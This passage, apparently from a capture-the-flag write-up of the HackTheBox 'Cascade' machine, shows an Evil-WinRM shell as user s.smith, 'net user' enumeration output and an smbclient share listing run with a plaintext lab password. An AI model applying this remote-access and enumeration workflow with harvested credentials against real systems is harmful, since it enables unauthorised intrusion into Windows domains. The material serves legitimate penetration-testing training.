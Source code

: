 ```

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\s.smith\Documents>
```
We can! Grab user.txt here :)

### Digging deeper as s.smith
There's lots of things to check out as `s.smith` - run your usual winPEAS.exe or what not. Having done the box already, let's just say we should always begin by enumerating the user's privileges:
```
*Evil-WinRM* PS C:\Users\s.smith\Documents> net user s.smith
User name                    s.smith
Full Name                    Steve Smith
Comment
User's comment
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/28/2020 8:58:05 PM
Password expires             Never
Password changeable          1/28/2020 8:58:05 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script                 MapAuditDrive.vbs                                                                                                           
User profile                                                                                                                                             
Home directory                                                                                                                                           
Last logon                   1/29/2020 12:26:39 AM                                                                                                       
                                                                                                                                                         
Logon hours allowed          All                                                                                                                         
                                                                                                                                                         
Local Group Memberships      *Audit Share          *IT
                             *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```
Interesting - we see that `s.smith` is part of the `Audit Share` group, which if nothing else, is _new_. There's also a `Logon script` for `MapAuditDrive.vbs` associated with this guy, so take note of that. For now, let's go check out `Audit Share` at SMB:
```
$ smbclient -L cascade.htb -U s.smith%sT333ve2

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        Audit$          Disk      
        C$              Disk      Default share
        Data            Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        print$          Disk      Printer Drivers
        SYSVOL          Disk      Logon server share
```
Great, so an `Audit$` share exists when listing shares ... actually if you recall, we've already seen this earlier. But now that we're `s.smith`, we can enter the share and check it out:
```
```
